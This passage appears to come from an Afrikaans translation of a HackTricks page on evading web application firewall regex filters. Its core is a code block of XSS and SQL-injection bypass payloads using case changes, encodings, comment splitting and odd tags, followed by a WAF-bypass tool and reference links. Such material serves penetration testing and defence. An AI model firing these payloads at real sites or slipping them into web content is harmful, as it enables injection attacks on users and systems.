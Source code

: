 ### Regex Bypasses

Verskillende tegnieke kan gebruik word om die regex-filters op firewalls te omseil. Voorbeelde sluit in afwisselende hoof- en kleinletters, byvoeging van reëlspringings, en die kodering van payloads. Hulpbronne vir die verskeie bypasses kan gevind word by [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#filter-bypass-and-exotic-payloads) en [OWASP](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html). Die voorbeelde hieronder is gehaal uit [this article](https://medium.com/@allypetitt/5-ways-i-bypassed-your-web-application-firewall-waf-43852a43a1c2).
```bash
<sCrIpT>alert(XSS)</sCriPt> #changing the case of the tag
<<script>alert(XSS)</script> #prepending an additional "<"
<script>alert(XSS) // #removing the closing tag
<script>alert`XSS`</script> #using backticks instead of parenetheses
java%0ascript:alert(1) #using encoded newline characters
<iframe src=http://malicous.com < #double open angle brackets
<STYLE>.classname{background-image:url("javascript:alert(XSS)");}</STYLE> #uncommon tags
<img/src=1/onerror=alert(0)> #bypass space filter by using / where a space is expected
<a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaaa href=javascript:alert(1)>xss</a> #extra characters
Function("ale"+"rt(1)")(); #using uncommon functions besides alert, console.log, and prompt
javascript:74163166147401571561541571411447514115414516216450615176 #octal encoding
<iframe src="javascript:alert(`xss`)"> #unicode encoding
/?id=1+un/**/ion+sel/**/ect+1,2,3-- #using comments in SQL query to break up statement
new Function`alt\`6\``; #using backticks instead of parentheses
data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+ #base64 encoding the javascript
%26%2397;lert(1) #using HTML encoding
<a src="%0Aj%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At%0A%3Aconfirm(XSS)"> #Using Line Feed (LF) line breaks
<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=confirm()> # use any chars that aren't letters, numbers, or encapsulation chars between event handler and equal sign (only works on Gecko engine)
```
## Gereedskap

- [**nowafpls**](https://github.com/assetnote/nowafpls): Burp plugin om junk data by requests te voeg om WAFs deur lengte te bypass

## Verwysings

- [https://rafa.hashnode.dev/exploiting-http-parsers-inconsistencies](https://rafa.hashnode.dev/exploiting-http-parsers-inconsistencies)
- [https://blog.sicuranext.com/modsecurity-path-confusion-bugs-bypass/](https://blog.sicuranext.com/modsecurity-path-confusion-bugs-bypass/)
- [https://www.youtube.com/watch?v=0OMmWtU2Y_g](https://www.youtube.com/watch?v=0OMmWtU2Y_g)
- [https://0x999.net/blog/exploring-javascript-events-bypassing-wafs-via-character-normalization#bypassing-web-application-firewalls-via-character-normalization](https://0x999.net/blog/exploring-javascript-events-bypassing-wafs-via-character-normalization#bypassing-web-application-firewalls-via-character-normalization)
- [How I found a 0-Click Account takeover in a public BBP and leveraged it to access Admin-Level functionalities](https://hesar101.github.io/posts/How-I-found-a-0-Click-Account-takeover-in-a-public-BBP-and-leveraged-It-to-access-Admin-Level-functionalities/)


{{#include ../banners/hacktricks-training.md}}
